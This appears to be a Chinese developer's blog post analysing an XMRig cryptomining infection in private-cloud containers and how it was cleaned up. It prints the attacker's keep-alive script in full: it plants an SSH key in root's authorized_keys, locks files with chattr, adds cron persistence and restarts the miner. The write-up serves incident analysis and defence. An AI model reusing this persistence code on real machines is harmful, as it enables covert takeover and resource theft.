



## Start
尽管挖矿热潮逐渐消退，以太坊等一众主流虚拟货币不再推荐显卡挖矿。但是还是不乏一些恶趣味的黑客秉着“蚊子在小也是肉的原则”在公共网络上扫描网段寻找可用的肉鸡目标。

上家公司做私有云相关的业务，机器隔三差五就被日。其中最常见的就是挖矿病毒XMRig

> [XMRig](https://github.com/xmrig/xmrig) 是一款高性能、开源、跨平台 RandomX、KawPow、CryptoNight 和 GhostRider 统一 CPU/GPU 挖矿程序和 RandomX 基准测试。官方二进制文件适用于 Windows、Linux、macOS 和 FreeBSD。

简单讲XMRig本身只是单纯的用于[门罗币Monero]()/[比特币]()的挖矿软件，但是常被黑客搭配保活程序作为挖矿病毒使用。

## First
保活进程解析,我们将进程检索结果中这一大串异常的东西拿出来看看。


```
 #!/bin/bash
 #
 # 这里一处很狡猾的设计，程序的运行目录在/var/tmp/.logs/.xmr文件中，但这个文件在病毒成功启动后就会被删除
 FOLDER="$(cat /var/tmp/.logs/.xmr)"

 # 以下为黑客而已注入的SSH公钥
 sshkey="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfWpOBY9XU2gUh6bfANlquq8YWUNh+eZaodVBYCBaW+uq2eyNl5XjjM+r0FCPhatw5xK3MQTSWQha/5J6qQ/IPZSB0ycCRb/GLoMWMxuQ4LTXLFNBsS90G7oKj5seh1/LonfQL1qlhIG67SSxLhVUrhj9xZctwu7bp/BHUZYTH5qWKrOqV0sPgC3KxIEQV4Row7J1jQLeOGLUtrf33V3l/booVPCF2fJW7+KDnvjpb1tESr/udhQ6OJYdFdQiL75aJbKql3lOemM5MugebtW52MG/ZjI7TePYyqXcOV9MammvChxxslRWM81lMvDYe6S8pg/1aNbmeQJCpWkin5hN/ localhost"
 hashid="349d893caaedd7552248f00dbdab0737fdcc15aefd36825603d3fe84e62e39cf"
 ###########

 # 公钥注入函数
 placekey() {
 	.chattr -iajtdu "/root" ;
 	chattr -R -iajtdu "/root/.ssh"
 	.echo $sshkey >> "/root/.ssh/authorized_keys"
 	.chmod 600 "/root/.ssh/authorized_keys"
 	.chattr +ia "/root/.ssh/authorized_keys"
 }
 sshkeyset() {
 	.if [ $(id -u) = 0 ]; then
 		..if [ -d "/root/.ssh/" ] && [ -f "/root/.ssh/authorized_keys" ]; then
 			...if ! cat "/root/.ssh/authorized_keys" | grep -q "${sshkey}" ; then
 				....placekey
 			...fi
 		..else
 			...if [ ! -d "/root/.ssh/" ]; then
 				....chattr -iajtdu "/root"
 				....mkdir "/root/.ssh/"
 			...fi
 			...placekey
 		..fi
 	.fi
 }

 # 设定定时任务
 cronjob() {
 	.if ! crontab -l | grep -q 'updat3'; then
 		..if [ $(id -u) = 0 ]; then
 			...chattr -R -iajtdu /var/spool/cron/crontabs
 		..fi
 		..
 		..echo "@daily $FOLDER/start" > $FOLDER/.tempo
 		..echo "@reboot $FOLDER/updat3 > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..echo "@monthly $FOLDER/updat3  > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..crontab $FOLDER/.tempo
 		..sleep 1
 		..rm -rf $FOLDER/.tempo
 	.fi
 }  :
 # 删除自身
 delete() { 
 	.if [ -f $FOLDER/config.json ]; then
 		..chattr -R -iajtdu $FOLDER/config.json
 		..rm -rf $FOLDER/config.json
 		..sleep 1
 		..killall xmrig
 		..pkill xmrig
 	.fi
 }
 # xmrig启动函数
 run() {
 	.if ! pgrep -x xmrig >/dev/null; then
    # 这里会对xmrig程序进行hash校验，毕竟肥水不流外人田：有一种操作是后来的黑客利用之前人的病毒通过修改挖矿地址来修改受益对象。所以一旦发现文件 hash值被修改就会删除被修改的文件
 		..if [[ $hashid == $(sha256sum $FOLDER/xmrig | awk '{print $1}') ]]; then
 			...$FOLDER/xmrig > /dev/null 2>&1 & disown
 		..else
 			...chattr -R -iajtdu "$FOLDER" "/var/tmp/.logs/.xmr"
 			...rm -rf $FOLDER /var/tmp/.logs/.xmr
 			...crontab -r
 			...exit;
 		..fi
 	.fi
 }
 # 这里一处死循环，重复执行整个脚本以保证保活
 while : do
 	.sshkeyset
 	.sleep 1
 	.cronjob
 	.sleep 1
 	.delete
 	.sleep 1
 	.run
 	.sleep 60 done /var/tmp/.mint-xmr/updat3
```

简单讲如上脚本干了这么几件事情
- 首先是入侵者公钥的持久化
- 其次是自我修复，如果发现有人尝试移除未知公钥就会立刻添加回去
- 定时任务：通过crontab设置定时人物在系统启东时运行程序，并在每日，每次重启，每月进行更新，保证病毒运行
- 自我守护：通过不断检测xmrig是否运行，如果被终止脚本会立刻重启xmrig
- 自我防护：如果检测到xmrig被替换，脚本会删除xmrig并结束自身

  肥水不流外人田的设计，没有这一步，后来者黑客可以修改xmrig文件，替换其中的挖矿密钥使得收益归到后来者

- 文件锁： 对所有关键性文件都是用chattr命令设置为不可更改，防止被用户破坏

## Second - Clean

1. 首先要清理病毒原文件以及脚本文件。

    但是在之前说过，作者很狡猾，启动程序所在的目录是被写在一个临时文件中，这个文件又会在程序启动后被自我删除。

    于是只可以使用笨办法，根据其中的异常程序名称updat3做一定范围的全盘搜索

    ``` find / -path "/remote-home" -prune -o -name "updat3" -print```

    

    > _其实这里有个误区，因为当时公司做的是私有云服务，服务器主机中病毒后潜意识的以为病毒程序在宿主机中，但是事实上在容器内，所以一开始各种主机范围内目录的搜索都没有结果，百思不得其解_

    定位完成后删除所有相关文件

1. 终止所有异常进程，使用pkill

1. 清理黑客的ssh密钥

1. 清理contrab任务

## Third

在后续对入侵的溯源中发现了其他几个异常的容器，以及ssh日志大量的爆破记录。大致上可以确定入侵原因应该是弱口令。~~不过这几个容器的用户并没有承认就是了，乐~~ 因为宿主机服务器本身的密码是强密码，也没有存在什么对外暴露的服务，唯一有的只有被代理出去的容器ssh服务。

黑客利用了一些公网网络扫描工具发现了这些暴露出来的ssh端口服务，并对其进行爆破（在后续的检查中，所有的容器的ssh日志都存在不同程度的爆破记录）



## Last

### 靠背哦，其实我是全栈开发来着！！！